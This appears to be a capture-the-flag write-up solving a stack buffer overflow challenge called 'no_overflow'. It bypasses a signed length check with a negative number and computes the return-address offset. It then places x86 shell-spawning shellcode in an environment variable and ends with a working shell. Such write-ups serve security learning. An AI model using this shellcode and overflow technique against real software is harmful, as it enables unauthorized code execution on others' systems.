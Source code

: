 ### S0lv3d by H4yicl3

try to download the binary

try to analysis the program
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  size_t v4; // [sp+1Ch] [bp-4h]@1

  be_nice_to_people();
  puts("How long is your name?");
  __isoc99_scanf("%d", &v4);
  if ( (signed int)v4 > 255 )				//check size
    result = puts("Length was too long!");
  else
    result = greet(v4);
  return result;
}
int __cdecl greet(size_t nbytes)
{
  char buf; // [sp+10h] [bp-108h]@1			//need overflow that

  puts("What is your name?");
  read(0, &buf, nbytes);
  return printf("Hello, %s\n!", &buf);
}
```

the v4 variable check the length of buffer!!
if we type negative number !! it will nothing !! so overflow it !! nevermind the check
find the offset
```
-00000108 buf             db ?
+00000004  r              db 4 dup(?)
```
offset = 0x108 + 0x4 =0x10C = 268

we create the shellcode environtment variable
getenv function http://pastebin.com/LZM64WGL to get the address 
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
./getenv hayicle ./no_overflow
hayicle will be at 0xffffd89a
```

So we need to redirect to the shell variable
```python
padding = "A"*268
retn_shell ="\x9a\xd8\xff\xff"
print padding + retn_shell
```

try run it
```
(echo -1 ;python no_overflow.py ;cat)|./no_overflow 
How long is your name?
What is your name?
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
���|���,��������S��
whoami
hayicle
```

well done!!
